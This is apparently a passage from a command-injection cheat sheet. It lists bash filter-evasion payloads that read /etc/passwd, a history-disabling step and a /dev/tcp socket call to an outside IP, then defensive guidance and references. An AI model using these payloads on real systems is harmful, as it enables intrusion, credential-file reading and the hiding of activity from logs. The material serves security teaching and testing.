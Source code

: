 ## Defense Evasion Techniques

### Avoiding Specific Patterns

```bash
# Avoiding common filtered terms
cat /e"t"c/pa'ss'wd
c'a't /etc/passwd

# Breaking commands with environment variables
c${PATH:0:1}at /etc/passwd

# Using uninitialized variables
cat /etc/$u$passwd
```

### Log Evasion

```bash
# Command execution without history
unset HISTFILE; ls -la

# Event expansion in Bash
bash -c 'exec 3<>/dev/tcp/10.10.10.10/443;echo -e "GET / HTTP/1.1\r\nHost: 10.10.10.10\r\n\r\n">&3;cat<&3'
```

## Command Injection Prevention

1. **Input Validation:**
   - Whitelist allowed characters/inputs
   - Use parameterized APIs

2. **Output Encoding:**
   - Encode special characters before passing to shell

3. **Avoid Dangerous Functions:**
   - In PHP: `system()`, `exec()`, `shell_exec()`, `passthru()`, etc.
   - In Python: `os.system()`, `subprocess.call()` with shell=True
   - In Node.js: `child_process.exec()`

4. **Principle of Least Privilege:**
   - Run applications with minimal required permissions

5. **Use Safe APIs:**
   - In PHP: `escapeshellarg()` and `escapeshellcmd()`
   - In Python: `subprocess.run()` with shell=False and arguments as list

## References

- [OWASP Command Injection](https://owasp.org/www-community/attacks/Command_Injection)
- [PortSwigger Command Injection](https://portswigger.net/web-security/os-command-injection)
- [HackTricks Command Injection](https://book.hacktricks.xyz/pentesting-web/command-injection)


